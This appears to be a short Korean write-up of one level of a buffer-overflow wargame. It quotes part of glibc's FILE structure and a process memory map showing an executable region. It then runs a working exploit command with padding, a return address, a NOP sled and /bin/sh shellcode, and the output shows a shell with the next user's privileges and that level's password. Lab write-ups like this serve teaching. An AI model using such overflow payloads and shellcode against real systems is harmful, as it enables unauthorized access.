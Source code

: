 ```c
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */
#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  /*  char* _save_gptr;  char* _save_egptr; */
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```



사실 이게 로더에 있는지는 몰랐는데 저기보면 실행권한이 존재하는 주소여서 쉘코드 뙇뙇뙇!이 가능함

```shell
08048000-08049000 r-xp 00000000 08:06 177429     /home/nightmare/xavius-cp
08049000-0804a000 rw-p 00000000 08:06 177429     /home/nightmare/xavius-cp
40000000-40013000 r-xp 00000000 08:08 34138      /lib/ld-2.1.3.so
40013000-40014000 rw-p 00012000 08:08 34138      /lib/ld-2.1.3.so
40014000-40015000 rw-p 00000000 00:00 0
40018000-40105000 r-xp 00000000 08:08 34145      /lib/libc-2.1.3.so
40105000-40109000 rw-p 000ec000 08:08 34145      /lib/libc-2.1.3.so
40109000-4010d000 rw-p 00000000 00:00 0
bfffe000-c0000000 rwxp fffff000 00:00 0
```



뙇뙇뙇

```shell
[nightmare@localhost nightmare]$ (python -c 'print "A"*44+"\x60\x50\x01\x40"+"\x90"*0x100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"';cat)|./xavius
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`P@ 
id
uid=518(nightmare) gid=518(nightmare) euid=519(xavius) egid=519(xavius) groups=518(nightmare)
my-pass      
euid = 519
throw me away
```





## STAGE 20 : xavius -> death_knight
